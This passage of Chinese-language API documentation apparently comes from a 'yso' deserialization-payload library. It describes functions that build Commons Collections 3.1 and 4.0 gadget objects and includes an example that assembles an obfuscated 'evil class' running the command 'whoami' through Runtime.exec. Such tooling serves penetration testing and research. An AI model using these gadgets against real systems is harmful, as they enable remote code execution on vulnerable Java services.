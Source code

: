 
### GetCommonsCollections3JavaObject

#### 详细描述
GetCommonsCollections3JavaObject 基于Commons Collections 3.1 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetCommonsCollections3JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetCommonsCollections3JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollections4JavaObject

#### 详细描述
GetCommonsCollections4JavaObject 基于Commons Collections 4.0 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。
